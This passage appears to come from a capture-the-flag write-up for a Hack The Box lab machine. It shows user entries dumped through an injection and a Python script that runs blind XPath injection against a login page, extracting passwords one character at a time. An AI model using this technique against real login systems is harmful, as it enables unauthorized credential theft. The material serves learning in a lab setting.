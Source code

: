 After messing with payloads for a while I found that we can return all the entries by using the following request:

![](/assets/images/htb-writeup-unbalanced/image-20200801210131487.png)

```
<div class="w3-container"><h3>   rita       Rita</h3><p>      Fubelli</p><p>Role:       rita@unbalanced.htb</p></div>
<div class="w3-container"><h3>   Jim       Mickelson</h3><p>      jim@unbalanced.htb</p><p>Role:       Web Designer</p></div>
<div class="w3-container"><h3>   Bryan       Angstrom</h3><p>      bryan@unbalanced.htb</p><p>Role:       System Administrator</p></div>
<div class="w3-container"><h3>   Sarah       Goodman</h3><p>      sarah@unbalanced.htb</p><p>Role:       Team Leader</p></div>
```

Now we have the usernames but no password yet.

Here's the boolean script we'll use to extract the password for all 4 accounts:

```python
#!/usr/bin/python3

import requests
import string
from pwn import *

proxies = {
    "http": "10.10.10.200:3128"
}

usernames = [
    "rita",
    "jim",
    "bryan",
    "sarah"
]

def getChar(user, x, i):
    url = "http://172.31.179.1:80/intranet.php"    
    data = {"Username": user, "Password": "a' or substring(//Username[contains(.,'" + user + "')]/../Password,{0},1)='{1}']\x00".format(str(i), x)}
    r = requests.post(url, data=data, proxies=proxies)
    if len(r.text) == 7529:
        return True
    else:
        return False

charset = string.ascii_letters + string.digits + string.punctuation

for user in usernames:
    pwd = ""
```